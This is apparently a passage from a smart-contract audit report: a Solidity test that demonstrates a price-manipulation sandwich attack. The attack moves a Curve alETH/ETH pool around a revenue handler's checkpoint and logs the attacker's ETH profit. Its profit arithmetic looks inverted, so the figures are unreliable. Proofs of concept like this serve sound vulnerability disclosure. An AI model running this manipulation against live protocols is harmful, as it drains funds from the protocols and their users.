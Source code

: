 ```javascript
        
        // Record attacker's ETH balance
        uint256 attackerETHBefore = attacker.balance;

        // Manipulate the price of the pool
        hevm.prank(attacker);
        ICurveStableSwap(alethcrv).exchange{ value: inputAmount }(
            0,
            1,
            inputAmount,
            0,
            attacker
        );

        // --------------------------------------------------------------------------
        // | Checkpoint is executed                                                 |
        // --------------------------------------------------------------------------

        uint256 balBefore = IERC20(aleth).balanceOf(address(revenueHandler));
        assertEq(balBefore, 0);
        revenueHandler.checkpoint();
        uint256 balAfter = IERC20(aleth).balanceOf(address(revenueHandler));
        assertApproxEq(revAmt, balAfter, revAmt / 30);
        

        // --------------------------------------------------------------------------
        // | Attack starts: Restore the pool to his original state                  |
        // --------------------------------------------------------------------------

        inputAmount = IERC20(aleth).balanceOf(attacker);

        // Approve the pool to spend the aleth
        hevm.prank(attacker);
        IERC20(aleth).approve(address(alethcrv), inputAmount);

        // Restore the price of the pool
        hevm.prank(attacker);
        ICurveStableSwap(alethcrv).exchange(
            1,
            0,
            inputAmount,
            0,
            attacker
        );

        // Log attacker profit in ETH
        uint256 attackerETHAfetr = attacker.balance;
        uint256 profit = attackerETHBefore - attackerETHAfetr;
        console2.log("attacker profit in ETH", profit);
        // - attacker profit in ETH 1141830491000656247 wei of ETH ~= 0.114 ETH

    }

```